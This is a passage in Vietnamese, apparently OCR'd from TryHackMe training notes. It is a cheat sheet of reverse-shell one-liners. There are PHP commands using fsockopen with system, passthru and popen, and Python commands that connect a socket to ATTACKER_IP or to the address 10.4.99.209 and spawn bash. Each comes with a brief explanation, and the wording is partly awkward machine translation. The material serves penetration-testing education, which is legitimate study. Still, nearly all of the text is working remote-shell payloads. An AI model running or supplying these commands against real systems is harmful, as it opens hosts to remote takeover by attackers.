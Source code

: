 Tương tự như lệnh trước, nhưng sử dụng  **shell\_exec** hàm.



**PHP Reverse Shell Sử dụng hàm hệ thống**

**target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER\_IP",443);system("sh <\&3 >\&3 2>\&3");'**

Shell đảo ngược này  sử dụng  **system** hàm thực thi lệnh và đưa kết quả ra trình duyệt.



**PHP Reverse Shell sử dụng hàm passthru**

**target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER\_IP",443);passthru("sh <\&3 >\&3 2>\&3");'**

Hàm này **passthru** thực thi một lệnh và gửi kết quả thô trở lại trình duyệt. Điều này hữu ích khi làm việc với dữ liệu nhị phân.



**PHP Reverse Shell sử dụng hàm popen**

**target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER\_IP",443);popen("sh <\&3 >\&3 2>\&3", "r");'**

Shell đảo ngược này  được sử dụng **popen** để mở con trỏ tệp tiến trình, cho phép shell được thực thi.



###### **Trăn(Python)**

﻿Xin lưu ý, các đoạn mã sau đây yêu cầu sử dụng **python -c** để chạy, được chỉ định bằng trình giữ chỗ PY-C

**Python Reverse Shell bằng cách xuất biến môi trường**

**target@tryhackme:~$ export RHOST="ATTACKER\_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));\[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'**

Shell đảo ngược này  thiết lập máy chủ và cổng từ xa làm biến môi trường, tạo kết nối socket và sao chép mô tả tệp socket cho đầu vào/đầu ra chuẩn.



**Python Reverse Shell sử dụng mô-đun subprocess**

**target@tryhackme:~$ PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'**

Shell đảo ngược này sử dụng **subprocess** mô-đun để tạo ra một shell và thiết lập một môi trường tương tự như lệnh Python Reverse Shell bằng cách xuất biến môi trường.



**Vỏ đảo ngược Python ngắn**

**PY-C 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER\_IP",443));\[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'**

Shell đảo ngược này tạo ra một socket **( s)**, kết nối với kẻ tấn công và chuyển hướng đầu vào, đầu ra và lỗi chuẩn đến socket bằng cách sử dụng  **os.dup2()**.
